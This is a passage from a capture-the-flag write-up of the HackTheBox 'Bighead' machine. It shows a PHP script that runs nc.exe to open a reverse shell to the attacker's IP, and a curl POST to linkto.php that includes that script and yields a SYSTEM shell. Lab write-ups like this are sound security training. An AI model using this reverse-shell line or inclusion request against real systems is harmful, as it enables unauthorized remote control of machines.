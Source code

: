 <br> I created a simple `php` script to execute `nc.exe` and give me a reverse shell :
![](/images/hackthebox/bighead/124.png)
```
<?php
system('C:\Users\Nelson\AppData\Local\Temp\nc.exe -e cmd.exe 10.10.xx.xx 1339');
?>
```
<br> I uploaded it and uploaded `nc.exe` to `C:\Users\Nelson\AppData\Local\Temp\` :
![](/images/hackthebox/bighead/125.png)
<br>  Last step is to exploit the vulnerability. We will send a POST request to `http://code.bighead.htb/testlink/linkto.php` With the parameters `PiperID` (we can leave it empty) and `PiperCoinID` which will be the path of the `php` script (`C:\Users\Nelson\AppData\Local\Temp\rev.php`) :
`curl -X POST "http://code.bighead.htb/testlink/linkto.php" -d "PiperID=&PiperCoinID=C:\Users\Nelson\AppData\Local\Temp\rev.php"`
![](/images/hackthebox/bighead/126.png)
<br> We get a reverse shell immediately. As `nt authority\system` :
![](/images/hackthebox/bighead/127.png)
<br> Awesome now we can get root and user flags, right ? well ... no. Let's get the user flag first :